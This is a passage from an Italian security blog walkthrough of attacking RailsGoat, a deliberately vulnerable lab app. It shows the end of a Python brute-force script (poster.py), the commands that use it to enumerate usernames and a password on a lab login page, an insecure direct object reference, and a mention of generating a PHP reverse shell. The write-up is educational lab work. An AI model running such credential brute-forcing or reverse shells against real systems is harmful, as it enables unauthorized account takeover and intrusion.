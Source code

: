             username = arg

    print '[+] poster.py (c) 2017 paolo@codiceinsicuro.it'
    print '[+] attack ' + url + ' using ' + wordlist + ' as wordlist'

    if brutelogin and brutepassword:
        print '[-] please choose only one between -L and -P'
        sys.exit(-3)

    if brutelogin: 
        brute_username(url, wordlist, domain)
    if brutepassword:
        brute_password(url, wordlist, domain, username)

if __name__ == "__main__":
    main(sys.argv[1:])

{%endhighlight%}

Lancio poster.py per enumerare gli username di /railsgoat:

{%highlight sh%}
# python poster.py -u http://172.16.202.241/railsgoat/sessions -w foo -L -d metacorp.com
{%endhighlight%}

![username enumeration]({{site.url}}/assets/images/getting-root/railsgoat/username_enumeration.png)

Ora lancio poster.py per enumerare la password di admin@metacorp.com
{%highlight sh%}
# python poster.py -u http://172.16.202.241/railsgoat/sessions -w foo -P --username admin -d metacorp.com
{%endhighlight%}

![password enumeration]({{site.url}}/assets/images/getting-root/railsgoat/password_enumeration.png)

Ed ecco qui, _admin1234_ è la password di admin@metacorp.com

## Uploading the bomb

Navigando come utente _admin_ non riusciamo ad arrivare alla url /download.
Quello che però possiamo fare, invece di _investire_ tempo in altri bruteforce,
è registrare un nuovo utente.

Registrati come utente _tre@metacorp.com_, possiamo navigare la directory
/download che ci redirige su
http://172.16.202.241/railsgoat/users/8/benefit_forms. L'8 è l'id del nostro
utente e, sì, ci sono tanti problemi di insecure direct object reference.

![nuovo utente]({{site.url}}/assets/images/getting-root/railsgoat/upload_form.png)

Per l'oscp, mi sono scritto uno scriptino python che mi genera il codice PHP
per fare una reverse shell con la funzione exec().
